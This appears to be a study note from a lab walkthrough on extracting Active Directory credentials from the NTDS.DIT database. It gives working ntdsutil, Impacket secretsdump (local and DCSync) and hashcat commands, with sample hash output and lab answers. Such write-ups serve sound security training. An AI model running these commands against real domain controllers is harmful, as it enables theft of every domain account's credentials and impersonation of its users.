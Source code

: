 
## NTDS Domain Controller
The **NTDS** database stores all Active Directory (AD) information, such as:

- **Objects** (users, computers, groups, etc.)
- **Attributes** (object properties)
- **Credentials** (hashed passwords, etc.)

---
 **Structure of NTDS.DIT**
 The data in the NTDS.DIT file is organized into three tables:

1. **Schema Table:** Defines types of objects (e.g., users, groups) and their relationships.
2. **Link Table:** Stores attributes of objects and their values.
3. **Data Table:** Contains actual data, such as user and group details.

---
 **File Location and Protection**

- **Default Location:** `C:\Windows\NTDS\NTDS.DIT`.
- **Protection:** The file is **encrypted** and actively used by Active Directory, meaning it’s **locked** and cannot be accessed directly while the system is running.

---
**Accessing the NTDS.DIT File**
To access and decrypt the NTDS.DIT file, follow these steps:

1. **Copying the NTDS.DIT File:**
You can use tools like:
- **`ntdsutil`:** A built-in utility to manage AD data.
- **`diskshadow`:** A tool to create shadow copies of locked files, like NTDS.DIT.

These tools allow you to make a **copy** of the file without directly accessing the locked database.

2. **Dumping the File's Content:**
After obtaining the file, you need to decrypt its contents to extract sensitive data, such as password hashes.

---
3. **Decrypting the NTDS.DIT File**
To decrypt the NTDS.DIT file, you also need the **System Boot Key** because:
- The Boot Key is required to decrypt **LSA Isolated Credentials** stored in the *NTDS.DIT* and is stored in the **SECURITY file** of the file system, which must also be dumped.

---


## Local Dumping (No Credentials) - ntdsutil
This is usually done if you have no credentials available but have administrator access to the domain controller. Therefore, we will be relying on Windows utilities to dump the NTDS file and crack them offline. As a requirement, first, we assume we have administrator access to a domain controller. 

To successfully dump the content of the NTDS file we need the following files:
- *C:\Windows\NTDS\ntds.dit*
- *C:\Windows\System32\config\SYSTEM*
- *C:\Windows\System32\config\SECURITY*

The following is a one-liner PowerShell command to dump the NTDS file using the *Ntdsutil* tool in the `C:\temp` directory.

**Ntdsutil**
Ntdsutil is a Windows utility to used manage and maintain Active Directory configurations. It can be used in various scenarios such as 

- Restore deleted objects in Active Directory.
- Perform maintenance for the AD database.
- Active Directory snapshot management.
- Set Directory Services Restore Mode (DSRM) administrator passwords

Dumping the content of the NTDS file from the Victim Machine
```shell-session
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

Now, if we check the `c:\temp` directory, we see two folders: Active Directory and registry, which contain the three files we need. Transfer them to the AttackBox and run the *secretsdump.py* script to extract the hashes from the dumped memory file.

Extract hashes from NTDS Locally
```shell-session
user@machine$ python3.9 /opt/impacket/examples/secretsdump.py -security {path/to/SECURITY} -system {path/to/SYSTEM} -ntds {path/to/ntds.dit} local
```

## Remote Dumping (With Credentials) - DC Sync
In this case, we will be showing how to dump a system and domain controller hashes remotely, which requires credentials, such as passwords or NTLM hashes. We also need credentials for users with administrative access to a domain controller or special permissions as discussed in the DC Sync section.

The ***DC Sync*** is a popular attack to perform within an Active Directory environment to dump credentials remotely. This attack works when an account (special account with necessary permissions) or AD admin account is compromised that has the following AD permissions:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

An adversary takes advantage of these configurations to perform domain replication, commonly referred to as "DC Sync", or Domain Controller Sync.

The Persisting AD room uses the Mimikatz tool to perform the DC Synchronization attack. Let's demonstrate the attack using a different tool, such as the Impacket Secrets Dump script.

Performing the DCSync Attack
```shell
python3.9 /opt/impacket/examples/secretsdump.py -just-dc {THM.red/AD_Admin_User}@{MACHINE_IP} > output.txt
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
thm.red\thm:1114:aad3b435b51404eeaad3b435b51404ee:[****REMOVED****]:::
```

- the `-just-dc` argument is for extracting the NTDS data.
- the `thm.red/AD_Admin_User` is the authenticated domain user in the form of (domain/user).

**Note**:
	If we are interested to dump only the NTLM hashes, then we can use the `-just-dc-ntlm` argument as follows:

The DC Sync Attack to DumpNTLMHashes
```shell
python3.9 /opt/impacket/examples/secretsdump.py -just-dc-ntlm {THM.red/AD_Admin_User}@{MACHINE_IP} > output.txt
```

Once we obtained hashes, we can either use the hash for a specific user to impersonate him or crack the hash using Cracking tools, such `hashcat`. We can use the hashcat `-m 1000` mode to crack the Windows NTLM hashes as follows:

Cracking the Hashes
```shell
hashcat -m 1000 -a 0 /path/to/ntlm_hashes.txt /path/to/wordlist/such/as/rockyou.txt
```


## Example
1. Apply the technique discussed in this task to dump the NTDS file **locally** and extract hashes. What is the target system bootkey value? **Note**: Use thm.red/thm as an Active Directory user since it has administrator privileges!

- Dumping the content of the NTDS file from the Victim Machine
```shell-session
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
- SCP all three dumped files (security/system/ntds) to our attacking machine
- Decrypt using impacket secretsdump.py

	Extract hashes from NTDS Locally
	```shell
	python3.9 /opt/impacket/examples/secretsdump.py -security {path/to/SECURITY} -system {path/to/SYSTEM} -ntds {path/to/ntds.dit} local
	```
	![](Pasted%20image%2020241125233401.png)

2. What is the clear-text password for the **bk-admin** username?
	![](Pasted%20image%2020241125235416.png)
Cracking the Hashes
```shell
hashcat -m 1000 -a 0 /bk-admin_hashes.txt /usr/share/wordlists/rockyou.txt
